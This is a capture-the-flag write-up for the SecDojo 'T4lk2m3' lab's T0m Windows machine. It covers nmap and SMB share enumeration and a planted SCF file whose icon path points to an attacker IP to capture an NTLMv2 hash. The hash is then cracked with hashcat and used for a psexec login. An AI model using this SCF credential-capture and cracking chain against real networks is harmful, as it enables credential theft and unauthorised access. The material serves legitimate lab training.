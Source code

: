```yaml
---
title: "SecDojo - T4lk2m3 Lab"
author: [Sesco]
subtitle: "T0m Machine Write Up"
date: "2023-01-01"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** T4lk2m3 Lab - T0m Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The "T4lk to m3" lab, contains two Microsoft Windows machines. To achieve access and obtain the Flags, you will have to conduct an SMB relay attack on those machines. One of those machines contains some SCF files. Learn how to use SCF files to grab juicy pieces of information.


# Enumeration

## Nmap

Initial nmap scan.

```console
$ nmap -Pn -sC -sV 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:40 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00027s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2023-01-01T15:42:25+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
| Not valid before: 2022-12-31T15:36:07
|_Not valid after:  2023-07-02T15:36:07
| rdp-ntlm-info: 
|   Target_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
|   DNS_Domain_Name: WIN-8EHFSR9B2UL
|   DNS_Computer_Name: WIN-8EHFSR9B2UL
|   Product_Version: 6.3.9600
|_  System_Time: 2023-01-01T15:41:45+00:00
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-01T15:41:45
|_  start_date: 2023-01-01T15:34:44
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:0f:3a:c9:f1:64 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-8EHFSR9B2UL
|   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-01T15:41:45+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
zsh: segmentation fault  nmap -Pn -sC -sV 172.16.4.179
```

Discovered couple of ports and services one of them is SMB port, let's check the available shares.

```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:48 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.179\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\172.16.4.179\compta: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\deepwin: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\orga: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Anonymous access: READ
|_    Current user access: READ
```

So there's seven available shares and it looks like the most suspicious shares are **compta**, **deepwin** and **orga** and they can be accessed anonymously.

One of the shares has a zip file, after downloading and unzipping the file I found another file **file.scf**.

![](./img-01.png)

```console
$ cat file.scf
[shell]
command=2
IconFile=\\172.31.31.144\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

## Exploitation

Now this is interesting the .SCF file can be used in **SMB Relay Attack** and that's because of its nature and that is when you browse to a location that contains SCF file the IconFile will be retrieved automatically.

The SMB Relay Attack requires us to set [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#:~:text=%3A%5CFY2018%5CFY2018-,UNC%20paths,well%20as%20v6%20are%20supported) path with our PWN machine IP address and in the PWN machine we'll try to listen and capture user's login credentials, and there's a module in metasploit that allow us to do that.

But before using the module we have to put our modified SCF file into the share and to do that we'll have to mount the share to one of our local folders, we can do that with this command.

```console
$ sudo mount.cifs //Attacker_IP_Adress/compta ./LocalFolder -o user=Anonymous,uid=$UID
```

```console
$ cat file.scf
[shell]
command=2
IconFile=\\Our_IP_Address\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

All we have to do now is start listening and browse to the compta share with `smbclient` utility.

![](./img-02.png)

And that's our NTLMv2 hash for Administrator user which requires cracking, and so I did with `hashcat` utility.

```console
$ hashcat -m 5600 admin_ntlmv2 /usr/share/wordlists/rockyou.txt  -o cracked.txt
```

![](./img-03.png)

This is our password cracked **P@ssw0rd**, let's try and login to the windows machine using `psexec.py` utility.

![](./img-04.png)

That's it we are in.

## Root Flag

Proof of concept.

![](./img-05.png)

**Flag:** **`Tom_Sesco-68dzkyr35ix5gufsp0i3zttdm44e91y8`**